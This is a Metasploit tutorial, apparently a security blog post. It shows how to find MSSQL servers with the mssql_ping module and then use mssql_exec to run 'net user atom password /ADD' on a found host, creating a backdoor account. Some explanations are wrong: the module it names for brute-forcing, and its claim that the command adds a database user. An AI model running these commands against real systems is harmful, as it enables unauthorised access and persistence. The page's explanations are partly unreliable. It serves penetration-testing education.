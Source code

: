 ```yaml
---
draft: false
title: MSSQL Scanning with MSF
linkTitle: MSSQL Scanning
weight: 110
translationKey: mssql-scanning-with-msf
date: 2017-05-16T12:52:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Metasploit Framework provides an ability to search for MSSQL installations on other IP addresses in the network you are on.
url: /mssql-scanning-with-msf/
featured_image: /images/metasploit.jpg
categories:
   - Metasploit Framework
tags:
   - cybersecurity
   - metasploit framework
---
```

One of the possibilities that Metasploit Framework provides to the user is that you can search for MSSQL installations on other IP addresses in the network you are on. For this, a trace search is performed with UDP scanning.

When MSSQL is first installed, it listens on port 1433 by default. It may be set to listen on randomly selected ports rather than port 1433. In this case, port 1434 may be asked which port the listening is done on.

In the example below, modules containing the phrase `mssql` are first searched.

```bash
msf > search mssql

Matching Modules
**================**

   Name                                                      Disclosure Date  Rank       Description
   ----                                                      ---------------  ----       -----------
   auxiliary/admin/mssql/mssql_enum                                           normal     Microsoft SQL Server Configuration Enumerator
   auxiliary/admin/mssql/mssql_enum_domain_accounts                           normal     Microsoft SQL Server SUSER_SNAME Windows Domain Account Enumeration
   auxiliary/admin/mssql/mssql_enum_domain_accounts_sqli                      normal     Microsoft SQL Server SQLi SUSER_SNAME Windows Domain Account Enumeration
   auxiliary/admin/mssql/mssql_enum_sql_logins                                normal     Microsoft SQL Server SUSER_SNAME SQL Logins Enumeration
   auxiliary/admin/mssql/mssql_escalate_dbowner                               normal     Microsoft SQL Server Escalate Db_Owner
   auxiliary/admin/mssql/mssql_escalate_dbowner_sqli                          normal     Microsoft SQL Server SQLi Escalate Db_Owner
   auxiliary/admin/mssql/mssql_escalate_execute_as                            normal     Microsoft SQL Server Escalate EXECUTE AS
   auxiliary/admin/mssql/mssql_escalate_execute_as_sqli                       normal     Microsoft SQL Server SQLi Escalate Execute AS
   auxiliary/admin/mssql/mssql_exec                                           normal     Microsoft SQL Server xp_cmdshell Command Execution
   auxiliary/admin/mssql/mssql_findandsampledata                              normal     Microsoft SQL Server Find and Sample Data
   auxiliary/admin/mssql/mssql_idf                                            normal     Microsoft SQL Server Interesting Data Finder
   auxiliary/admin/mssql/mssql_ntlm_stealer                                   normal     Microsoft SQL Server NTLM Stealer
   auxiliary/admin/mssql/mssql_ntlm_stealer_sqli                              normal     Microsoft SQL Server SQLi NTLM Stealer
   auxiliary/admin/mssql/mssql_sql                                            normal     Microsoft SQL Server Generic Query
   auxiliary/admin/mssql/mssql_sql_file                                       normal     Microsoft SQL Server Generic Query from File
   auxiliary/analyze/jtr_mssql_fast                                           normal     John the Ripper MS SQL Password Cracker (Fast Mode)
   auxiliary/gather/lansweeper_collector                                      normal     Lansweeper Credential Collector
   auxiliary/scanner/mssql/mssql_hashdump                                     normal     MSSQL Password Hashdump
   auxiliary/scanner/mssql/mssql_login                                        normal     MSSQL Login Utility
   auxiliary/scanner/mssql/mssql_ping                                         normal     MSSQL Ping Utility
   auxiliary/scanner/mssql/mssql_schemadump                                   normal     MSSQL Schema Dump
   auxiliary/server/capture/mssql                                             normal     Authentication Capture: MSSQL
   exploit/windows/iis/msadc                                 1998-07-17       excellent  MS99-025 Microsoft IIS MDAC msadcs.dll RDS Arbitrary Remote Command Execution
   exploit/windows/mssql/lyris_listmanager_weak_pass         2005-12-08       excellent  Lyris ListManager MSDE Weak sa Password
   exploit/windows/mssql/ms02_039_slammer                    2002-07-24       good       MS02-039 Microsoft SQL Server Resolution Overflow
   exploit/windows/mssql/ms02_056_hello                      2002-08-05       good       MS02-056 Microsoft SQL Server Hello Overflow
   exploit/windows/mssql/ms09_004_sp_replwritetovarbin       2008-12-09       good       MS09-004 Microsoft SQL Server sp_replwritetovarbin Memory Corruption
   exploit/windows/mssql/ms09_004_sp_replwritetovarbin_sqli  2008-12-09       excellent  MS09-004 Microsoft SQL Server sp_replwritetovarbin Memory Corruption via SQL Injection
   exploit/windows/mssql/mssql_clr_payload                   1999-01-01       excellent  Microsoft SQL Server Clr Stored Procedure Payload Execution
   exploit/windows/mssql/mssql_linkcrawler                   2000-01-01       great      Microsoft SQL Server Database Link Crawling Command Execution
   exploit/windows/mssql/mssql_payload                       2000-05-30       excellent  Microsoft SQL Server Payload Execution
   exploit/windows/mssql/mssql_payload_sqli                  2000-05-30       excellent  Microsoft SQL Server Payload Execution via SQL Injection
   post/windows/gather/credentials/mssql_local_hashdump                       normal     Windows Gather Local SQL Server Hash Dump
   post/windows/manage/mssql_local_auth_bypass                                normal     Windows Manage Local Microsoft SQL Server Authorization Bypass
```

We will use the module named `auxiliary/scanner/mssql/mssql_ping` from the listed modules. In the example below, MSSQL scanning is performed on the IP address range `10.211.55.1/24`.

```bash
msf > use auxiliary/scanner/mssql/mssql_ping
msf auxiliary(mssql_ping) > show options

Module options (auxiliary/scanner/mssql/mssql_ping):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 PASSWORD no The password for the specified username
 RHOSTS yes The target address range or CIDR identifier
 TDSENCRYPTION false yes Use TLS/SSL for TDS data "Force Encryption"
 THREADS 1 yes The number of concurrent threads
 USERNAME sa no The username to authenticate as
 USE_WINDOWS_AUTHENT false yes Use windows authentification (requires DOMAIN option set)

msf auxiliary(mssql_ping) > set RHOSTS 10.211.55.1/24
RHOSTS => 10.211.55.1/24
msf auxiliary(mssql_ping) > exploit

> SQL Server information for **10.211.55.128:
> tcp **=** 1433
> np **=** SSHACKTHISBOX-0pipesqlquery
> Version **=** 8.00.194
> InstanceName **=** MSSQLSERVER
> IsClustered **=** No
> ServerName **=** SSHACKTHISBOX-0
> Auxiliary module execution completed
```

As can be seen in the result, MSSQL service is running on IP address `10.211.55.128` and Port number 1433. From this point on, **brute-force** attempts can be made using the `mssql_exec` module. Alternatively, medusa or THC-Hydra can be used.

```bash
msf auxiliary(mssql_login) > use auxiliary/admin/mssql/mssql_exec
msf auxiliary(mssql_exec) > show options

Module options (auxiliary/admin/mssql/mssql_exec):

 Name Current Setting Required Description
 ---- --------------- -------- -----------
 CMD cmd.exe /c echo OWNED > C:\owned.exe no Command to execute
 PASSWORD no The password for the specified username
 RHOST yes The target address
 RPORT 1433 yes The target port (TCP)
 TDSENCRYPTION false yes Use TLS/SSL for TDS data "Force Encryption"
 USERNAME sa no The username to authenticate as
 USE_WINDOWS_AUTHENT false yes Use windows authentification (requires DOMAIN option set)


msf auxiliary(mssql_exec) > set RHOST 10.211. 55.128
RHOST => 10.211. 55.128
msf auxiliary(mssql_exec) > set MSSQL_PASS password
MSSQL_PASS => password
msf auxiliary(mssql_exec) > set CMD net user atom password /ADD
cmd => net user atom password /ADD
msf auxiliary(mssql_exec) > exploit
```

In the example above, if the exploit is successful, a user is added to the MSSQL database by sending the `net user atom password /ADD` command. Note that this command is entered into the CMD variable with `set CMD net user atom password /ADD`.
